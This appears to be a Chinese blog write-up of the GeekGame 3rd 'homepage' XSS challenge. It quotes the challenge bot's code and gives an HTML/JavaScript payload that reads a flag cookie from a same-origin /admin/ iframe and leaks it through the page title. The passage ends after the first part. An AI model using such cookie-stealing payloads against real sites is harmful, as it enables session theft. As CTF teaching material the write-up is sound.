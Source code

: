 ```yaml
---
title: xss 和 xss 持久化学习
date: '2022/12/02 16:05:01'
categories:
  - - web安全
description: xss 学习，利用 Service Worker 实现 xss 的持久化攻击
tags:
abbrlink:
---
```


# xss 和 xss 持久化学习

## geekgame-3rd 的 prob01-homepage 
[源码及wp](https://github.com/PKU-GeekGame/geekgame-3rd/tree/master/official_writeup/prob01-homepage)

题目给出的描述是：
本题提供了一个模拟受害者行为的程序，称为 XSS Bot。它会自动操作浏览器将 Flag 放置在目标网站上，然后访问你指定的网址。
请设法找到并利用目标网站上的漏洞，通过与 XSS Bot 交互获得受害者浏览器中的 Flag。

### 第一部分
```python
if protocol=='http': # flag 1
    with webdriver.Chrome(options=options) as driver:
        print('\nSetting up flag 1')
        driver.get(admin_url)
        time.sleep(.5)
        driver.execute_script(f'document.cookie = "flag={getflag(1)}; path=/admin"')
        time.sleep(.5)
        
        print('\nVisiting your webpage')
        driver.get(hacker_url)
        time.sleep(1)
        
        title = driver.title
        print('\nThe page title is:', title)
```

机器人先访问 admin 页面 ```admin_url```，然后在 cookie 放入 flag 之后，访问我们的网页 ```hacker_url```，这里的可控就相当多了，很自然可以想到，构建一个恶意的页面让机器人访问就行

```document.cookie``` 设置的 cookie，可以通过指定 path 属性来限制其在特定路径下的访问，因此需要设置网页的路径也在 ```/admin``` 下

因为这里是同源的，所以可以用 ```<iframe src="/admin/"></iframe>``` 的方式加载资源，实现将 cookie 加载进来当前页面

```html
<title id="mytitle">Web Page</title>
<iframe id="temp" src="/admin/"></iframe>
<script>
    setTimeout(()=>{
        var iframe = document.getElementById("temp");
        var iframeCookie = iframe.contentDocument.cookie;
        document.getElementById("mytitle").innerText = iframeCookie;
    }, 500);
</script>
```
